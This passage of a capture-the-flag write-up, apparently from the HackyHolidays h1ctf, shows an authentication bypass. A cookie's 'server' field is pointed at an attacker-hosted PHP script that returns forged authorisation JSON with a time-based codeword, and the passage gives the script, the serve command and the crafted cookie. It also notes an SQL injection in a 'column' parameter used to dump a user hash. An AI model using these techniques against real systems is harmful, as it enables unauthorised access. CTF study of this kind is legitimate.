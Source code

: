 Based on the information above we need to craft an attack that:
 1. Will inject our server as the `server` value in our cookie.
 2. Our server should return a response that will include `"authorised":true` and also the correct keyword based on the server's time.

To do this, we host the following PHP code on our server. We were lucky enough to have a VPS in the same timezone as the server used for the CTF therefore we did not have to adjuct the date fucntion below.
```php
<?php
function expectedKeyword($codewords){
        $words = explode(PHP_EOL,file_get_contents($codewords));
        $line = intval(date("G")) + intval(date("i"));
        return $words[$line];
    }
echo "{\"authorised\":true,\"codeword\":\"".expectedKeyword('code.txt')."\"}";
```
Then we serve the code like
```bash
php -S 0.0.0.0:8000 code.php
```
And craft the following cookie
```
Cookie:
> authorisation_token=eyJ0b2tlbiI6InczMXJkMCIsInNlcnZlciI6IjE3Mi4xMDUuWFguWFg6ODAwMC9cLz90ZXN0PSJ9
Decoded Cookie
> {"token":"w31rd0","server":"172.105.XX.XX:8000/\/?test="}
```
4. We send the request and notice that we get a hit on our server

![request-recevied](https://user-images.githubusercontent.com/55701068/151602285-e9ef6795-6690-4c74-91a1-94c05914abc2.png)

Our server will respond with the JSON response needed to get authorised

![response](https://user-images.githubusercontent.com/55701068/151602319-3ecdd42a-ac18-4f27-ba2d-8d38bc036569.png)

We notice that we can now view the protected page

![bypass-protector](https://user-images.githubusercontent.com/55701068/151602365-657e9659-bfab-4984-ad03-d0a3bcd9793c.png)


5. While fuzzing we identify a directory called [releases](https://c2.hackyholidays.h1ctf.com/infrastructure_management/releases) which revels some information about the protection put in place for the login form.
- We notice that it will be impossible to bruteforce (or crack) the password of any user due to the implemented complexity
- There is a time delay of 5 seconds for each login attempt that will make that attack even harder.
6. We also notice that a request is send to the following endpoint
https://c2.hackyholidays.h1ctf.com/infrastructure_management/get_column?column=username

After a while we discover that the `column` parameter is vulnerable to SQLi and we can try dumping the database which gives us a user and a hash, but as already stated there is no point on trying to crack

![Screenshot from 2021-12-22 00-50-48](https://user-images.githubusercontent.com/55701068/151602459-d8afdcc4-3bec-4a1a-88a4-46115c3e29b2.png)
